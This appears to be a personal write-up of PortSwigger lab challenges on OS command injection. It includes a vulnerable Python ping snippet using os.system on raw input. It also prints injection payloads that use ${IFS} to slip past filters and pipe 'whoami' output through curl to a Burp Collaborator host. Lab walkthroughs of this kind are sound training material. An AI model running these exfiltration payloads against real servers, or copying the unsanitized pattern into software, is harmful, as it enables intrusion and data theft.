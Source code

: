 ### Command injection(Portswigger labs)

### Command Injection vulnerability in web apps 
   
   Command injection occurs when an attacker is able to execute shell commands(operating system commands) on a server.This vulnerability can compromise sensitive data and also help to grant access too an infrastructure.Below is an example of a vulnerable code snippet
   A website can decide to use the Linux ping utility to allow website visitors to ping ip addresses e.g
        
        import os

        ipaddr = input('Enter your ip address')
        result = os.system(f"ping {ipaddr}")
        print(result)
  
  If the user input is not properly sanitized,an attacker can close the first statement with a semi-colon(if linux) and execute another statement.
  
### Challenge 1: Os command injection simple case
Challenge description:

![2023-10-22_16-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1a21ffc3-3e04-46d1-bb0c-682749281f3d)

- I intercepted the check stock feature with burp proxy 

![2023-10-22_16-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd5496c-ea1a-43d8-b108-6201643e3351)

- I tested both fields with linux shell command but It did not return any output.So I used semi-colon before the commands and it worked.
     
![2023-10-22_16-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd3e5497-c800-480d-bab8-e5bafd9bd7a3)

- Challenge solved

 ![2023-10-22_16-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a4035f0-62b1-41f2-b186-c1dfb8ce43c8)

### Challenge 2:
Challenge 2 description: Blind command injection with out of band exfiltration

 ![2023-10-24_14-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbec0d6a-ba94-4377-a8fc-f7bed033e85f)

- The main goal of this challenge is to exploit blind command injection by exfiltrating command output with the aid of burp collaborator.I intercepted the feedback form with burp proxy.

 ![2023-10-24_14-31](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37093ea4-afa0-499e-afcc-f75610fc3d23)

- After sending to the repeater,I decided to test if the linux utilities that I need are filtered or if some commands are filtered.The first thing I did was making a request to burp collaborator with curl and I noticed that the string 'curl' was not filtered by the website.
- I used this payload to send a request to burp collaborator with a message saying "sleep".Note that ${IFS} means space in bash

      ;curl${IFS}<burp collaborator's link>${IFS}-d${IFS}'sleep'
- The server made a request to burp collaborator containing "sleep" in the body.

  ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3df3fac5-8e45-4b4e-8e2c-e2db12d8dbd0)

- I exfiltrated the current user account with this payload.The payload pipes the result of 'whoami' to the position of @- and curl makes a request containing the data to burp collabortor.

      ;whoami${IFS}|curl${IFS}<burp collaborator's link>${IFS}-d${IFS}@-${IFS}2>/dev/null
- Burp collaborator received a request containing the current user account.

 ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ebbce3fd-b83d-47fd-be84-294500b5aa60)

- Challenge solved

 ![2023-10-24_15-08](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3bf9ad4-7537-4243-aa13-66e7b422dcaa)
  
### Challenge 3:

Challenge description: Blind OS command injection with out-of-band interaction
  
  ![2023-10-24_15-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/eeb9ee81-696e-46df-9cee-ee8cc9fac515)

- I used the payload of the last challenge to make a dns query to burp collaborator

  ![2023-10-24_15-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fbda2acf-bb9e-4035-8e0e-7bc4e7dfdd52)

- Challenge solved

  ![2023-10-24_15-40](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0f401a1f-33f2-4bc8-993c-5bd005c84b03)
